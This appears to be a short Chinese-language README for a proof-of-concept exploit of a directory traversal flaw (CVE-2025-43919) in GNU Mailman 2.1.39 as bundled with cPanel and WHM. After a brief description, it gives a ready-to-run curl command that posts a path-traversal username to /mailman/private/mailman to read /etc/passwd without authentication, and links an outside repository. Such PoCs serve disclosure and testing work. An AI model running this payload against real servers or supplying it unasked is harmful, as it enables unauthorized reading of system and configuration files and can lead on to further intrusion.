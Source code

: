 # GNU Mailman目录遍历漏洞(CVE-2025-43919)

# 漏洞描述
GNU Mailman 2.1.39 与 cPanel 和 WHM 捆绑在一起，在终端中存在一个严重的目录遍历漏洞。由于 CGI 脚本的输入验证不足，/mailman/private/mailman未经身份验证的攻击者可以利用此漏洞读取服务器上的任意文件，例如Mailman 配置文件。此漏洞存在严重的信息泄露风险，并且与其他漏洞利用程序结合使用时，可能会引发进一步的攻击。

# poc
```
curl -X POST -d "username=../../../../etc/passwd&password=x&submit=Let+me+in..." http://target/mailman/private/mailman
```

漏洞原文:https://github.com/0NYX-MY7H/CVE-2025-43919
